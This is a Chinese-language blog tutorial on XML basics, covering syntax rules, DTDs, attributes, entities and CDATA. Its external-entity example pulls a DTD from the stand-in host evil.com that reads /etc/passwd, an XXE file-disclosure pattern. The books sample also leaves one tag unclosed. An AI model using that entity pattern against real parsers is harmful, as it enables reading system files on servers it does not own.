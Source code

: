 ```yaml
---
draft: false
date: 2016-05-25 13:59:59
title: XML 基础
description: 
categories:
  - Other
tags:
  - xml
---
```


### 0x00 XML简介
1、xml的设计宗旨是传输数据，而并非显示数据  
2、xms是不作为的，它被设计用来结构化、存储以及传输信息  
3、xml只是纯文本，独立于软硬件和应用程序  
4、xml可供任何软硬设备读取数据  
5、xml可以自定义标签  
6、xml具有自我描述性  
7、xml是对html的补充  
8、xml常用于简化数据的存储和共享  

### 0x01 XML语法规则
1、所有元素必有闭合标签  
2、标签对大小写敏感  
3、必须正确的嵌套  
4、XML必须有根元素，根节点可以有子节点  
5、XML的属性值必须加引号(能用子元素的就用子元素代替属性)  
6、空格会被保留  
7、XML以LF存储换行  
8、注释使用```<!--   -->```  
9、实体引用  
```html
&lt;  <   小于
&gt;  >   大于
&amp;   &   和号
&apos;  '   单引号
&quot;  "   引号
```

### 0x02 XML格式
```
<?xml version="1.0" encoding="utf-8"?>  <!--xml声明-->

<!--文档类型定义-->
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to       (#PCDATA)> <!-- 定义to标签中元素的类型　-->
  <!ELEMENT from     (#PCDATA)>
  <!ELEMENT heading  (#PCDATA)>
  <!ELEMENT body     (#PCDATA)>
]>

<!--文档元素-->
<note>
  <to>Tom</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Hi,I’am John</body>
</note>
```

### 0x03 XML示例
例子一：John给George的便签
```
<?xml version="1.0" encoding="UTF-8"?>
<note>   <!-- 根元素 -->
  <to>George</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting!</body>
</note>
```

例子二：传输数据
```
<?xml version="1.0" encoding="UTF-8"?>
<books>
  <book>
    <name>Python黑帽子</name>
    <date>2015</date>
    <price>37￥</price>
    <description>
      用python写一些程序
    </description>
  </book>
  <book>
  <name>Web安全深度剖析</name>
  <date>2014</date>
  <price>39￥</price>
  <description>
    讲述web渗透的基础知识
  </description>
</books>
```

### 0x04 XML属性
对于xml要尽量避免使用属性，作为数据的都尽量使用标签，作为标识的可以作为属性，  
下面两种xml文档包含信息相同，但是推荐第二种
```
<?xml version="1.0" encoding="UTF-8"?>
<messages date="28/08/2008">
  <note id="501"> <!-- ID仅仅是一个标识符，用于标识不同的便签。-->
    <to>George</to>
    <from>John</from>
    <heading>Reminder</heading>
    <body>Don't forget the meeting!</body>
  </note>
  <note id="502">
    <to>John</to>
    <from>George</from>
    <heading>Re: Reminder</heading>
    <body>I will not</body>
  </note> 
</messages>
```
```
<?xml version="1.0" encoding="UTF-8"?>
<messages>
  <date>28/08/2008</date> <!-- date作为数据，所以写入到标签中 -->
  <note id="501">
    <to>George</to>
    <from>John</from>
    <heading>Reminder</heading>
    <body>Don't forget the meeting!</body>
  </note>
  <note id="502">
    <to>John</to>
    <from>George</from>
    <heading>Re: Reminder</heading>
    <body>I will not</body>
  </note> 
</messages>
```

### 0x05 使用实体
实体是用于定义引用普通文本或特殊字符的快捷方式的变量，实体可在内部或外部进行声明。  
XML实体分为四种：字符实体，命名实体，外部实体，参数实体。  
可以利用DTD来内部或外部引入实体，DTT基本格式：<!DOCTYPE 根元素名 [  元素描述   ]>

* 内部引入

格式：```<!ENTITY 实体名称 "实体的值">```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
    <!ENTITY abc "Hello World!">
]>
<root>
    &abc;
</root>
```

* 外部引入

格式：```<!ENTITY 实体名称 SYSTEM "URI">```

evil.dtd中的内容为```<!ENTITY b SYSTEM "file:///etc/passwd">```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
    <!ENTITY a SYSTEM "http://evil.com/evil.dtd">
]>
<root>
    &b;
</root>
```

### 0x06　CDATA
在 XML 元素中，"<" 和 "&" 是非法的。  
"<" 会产生错误，因为解析器会把该字符解释为新元素的开始。  
"&" 也会产生错误，因为解析器会把该字符解释为字符实体的开始。  
为了避免错误，可以将脚本代码定义为CDATA，CDATA部分中的所有内容都会被解析器忽略。

```
<![CDATA[ <script>alert("test");</script> ]]>
```
